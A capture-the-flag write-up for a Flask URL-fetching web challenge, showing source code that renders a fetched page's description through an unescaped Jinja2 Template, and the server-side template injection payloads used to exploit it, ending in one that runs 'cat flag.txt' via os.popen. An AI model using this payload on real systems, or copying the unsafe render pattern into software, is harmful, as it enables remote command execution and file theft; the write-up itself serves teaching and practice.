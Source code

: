 # Overview
This is the login and registration interface when we start entering the website  
  
<img width="500" height="300" alt="image" src="https://github.com/user-attachments/assets/2cb3233f-e361-46af-b837-190d75dc273c" />
<img width="500" height="350" alt="image" src="https://github.com/user-attachments/assets/ea073e50-ab08-49b6-b700-14dd5331535b" />  

After creating an account and logging in, you will be taken to a page that allows us to fetch the urls we passed  
<img width="500" height="300" alt="image" src="https://github.com/user-attachments/assets/b4c84f43-731b-4fc2-97cf-ffbce2193a0e" />  


Try streaming https://facebook.com  
<img width="500" height="300" alt="image" src="https://github.com/user-attachments/assets/343f43da-8cdb-40b3-a59b-5e3d335e3fca" />  
There are 3 return parameters:  
* Url when fetched
* Title page
* Description
Reading the source code we can see there is a vulnerability related to SSTI:
```
  escaped_description = html.escape(description) # Escape HTML entities in description
  escaped_description = Template(description).render()
  escaped_url = html.escape(url)
  escaped_title = html.escape(title)
```
=> We can see that if we pass an SSTI payload into the description, it will be reflected out  
Analyzing the code a little more, we can see that the website uses flask python to code and the jinja2 template is imported for use.  
```
from flask import Flask, request, render_template, redirect, url_for, session, g
from jinja2 import Template
```
# Writeup
Now we will create a web metadata containing description and payload  
```
<html>
  <head>

    <meta name="description" content="{{ 7*’7’}}">
  </head>
  <body>Exploit</body>
</html>
```
We see that the description has executed the payload **SSTI** :  
<img width="500" height="300" alt="image" src="https://github.com/user-attachments/assets/c1233d0b-a486-42fd-b0fb-2f90859ce646" />  
Now we will transmit the payload to read the flag:  
```{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}```  
  
Flag will be returned  
<img width="500" height="250" alt="image" src="https://github.com/user-attachments/assets/d935b5ef-7d3b-40b7-acfb-c40fd7fced52" />
  
See more: [Jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2)


